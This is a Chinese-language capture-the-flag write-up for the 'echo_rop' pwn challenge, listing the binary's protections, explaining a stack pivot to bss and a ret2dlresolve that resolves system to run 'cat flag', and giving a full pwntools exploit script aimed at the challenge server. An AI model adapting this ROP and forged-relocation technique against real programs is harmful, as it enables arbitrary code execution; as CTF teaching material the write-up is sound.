

# echo_rop

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |*Unrelated*|

## 解题思路

允许往 bss 上写入大量字节，但是栈溢出时没有 libc 信息，还 `shutdown(1, SHUT_RD)`，
把后续读取的路断了，因此接下去必须在一次栈溢出中把 flag 写出来。

根据题目给的提示，在栈溢出时栈迁移到 bss 上，然后做 DlResolve 解析 `system` 符号运行
`cat flag` 即可。具体的思路可以看 [ACTF2025 - only_read](https://rocketma.dev/2025/04/27/only_read/)。

> [!NOTE]
> 正如引用的文章所述，`symtab` 等符号的值会因 patchelf 改变，由于这题不需要具体 libc，
> 因此保持二进制原样才能确保运行结果和远端一致。

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './echo_rop'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.14.76.59', 17010)
    elf = ELF(EXE)
    libc = elf.libc
    rop = ROP(elf)

    def test_offsets(symidx: float, relidx: float) -> bool:
        no_mismatch = True
        if symidx > int(symidx):
            log.failure('SYM_OFFSET couldn\'t meet symtab[ELFW(R_SYM)(reloc->r_info)]!')
            no_mismatch = False
        if relidx > int(relidx):
            log.failure('REL_OFFSET couldn\'t meet l_info[DT_JMPREL] + reloc_arg!')
            no_mismatch = False
        return no_mismatch

    bss = (elf.bss() & ~0xfff) + 0x800
    dl_resolve = 0x401020

    strtab = 0x4004e0
    symtab = 0x4003d8
    jmprel = 0x4005e8

    SYM_OFFSET = 0x30
    SYM_INDEX  = (bss + SYM_OFFSET - symtab) / 0x18
    REL_OFFSET = 0x78
    REL_INDEX  = (bss + REL_OFFSET - jmprel) / 0x18
    fake_sym = flat({
        0: b'system', # symbol name

        # Elf64_Sym
        SYM_OFFSET: [
            bss - strtab, # st_name, offset from strtab to "system"
            # rest members of Elf64_Sym is 0
        ],

        # Elf64_Rela
        REL_OFFSET: [
            bss - 8,           # r_offset, where to write system@libc
            7 | (int(SYM_INDEX) << 32), # r_info
            # r_append in Elf64_Rela is 0
        ],
    }, filler=b'\0')
    assert test_offsets(SYM_INDEX, REL_INDEX), 'At least one offset is wrong'

    chain = [
        rop.rdi.address,
        0x404080, # where "cat flag" is
        rop.ret.address,
        dl_resolve,
        int(REL_INDEX),
    ]

    t.sendafter(b'memo', flat({
        0: b'cat flag',
        0x780: fake_sym,
        0x1000: chain,
    }, filler=b'\0').ljust(0x2000, b'\0'))

    t.sendafter(b'message', flat({0x70: 0x404080 + 0xff8, 0x78: rop.leave.address}))

    t.recvuntil(b'DASCTF{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is {flag}')

    t.close()
```


